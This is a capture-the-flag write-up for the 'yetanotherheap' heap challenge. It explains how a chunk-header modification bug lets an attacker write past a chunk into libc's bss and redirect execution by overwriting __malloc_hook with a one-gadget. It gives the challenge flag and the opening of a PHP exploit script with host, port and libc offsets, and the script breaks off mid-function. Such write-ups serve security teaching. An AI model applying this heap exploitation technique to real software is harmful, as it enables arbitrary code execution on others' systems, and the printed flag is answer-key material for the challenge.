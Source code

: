 ### Header modification
The header modification vulnerability can be used to write outside the bounds of
a chunk by using the following actions :

```
add("a") # idx = 1
add("b") # idx = 2
del(0)   # del header

add("\x00\x00\x01\x00" + "\xFF") # Create a fake header
add("c" * 0x10000)               # Allocate with new size
```

The last allocation will be allocated at address `chunk + 0x10000 * 8` with a
size of `0x010000`.

There are no data structure to corrupt on the heap. Fortunately, it is possible
to allocate a chunk whose size is big enough that the glibc allocator will
return an address from a call to `mmap`.

This map will be right before the libc. It becomes possible to overwrite
information in the libc's bss by specifying a size large enough and setting
enough bits to jump over the unwritable parts of the library.

It becomes possible to change the execution flow of the program by overwriting
`__malloc_hook` with a one gadget.

**Flag**: `DrgnS{Th4nk5_Qualys_f0r_Th3_1d34!!!!!11}`

## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/mnt/ctf/tools/pwn/phplib/hexdump.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/mnt/ctf/tools/pwn/phplib/tubes/Socket.php";

const LOCAL = false;
const HOST  = "yetanotherheap.hackable.software";
//const HOST  = "172.17.0.3";
const PORT  = 1337;

const MAIN_ARENA = 0x001ec310;
const HOOK       = 0x001ebb70;
//const GADGET     = 0x000e6af1;
//const GADGET = 0x00026d48; // inf loop
//const GADGET = 0x271f0; // entry
const GADGET = 0x000e6c81; // lol im idiot

function menu(Tube $t)
{
	$t->expectLine("Menu:");
	$t->expectLine("0. Exit");
	$t->expectLine("1. Allocate object");
	$t->expectLine("2. Free object");
	$t->expectLine("");
	$t->expect("> ");
}

function add(Tube $t, $data)
{
	menu($t);
	$t->write("1\n");

```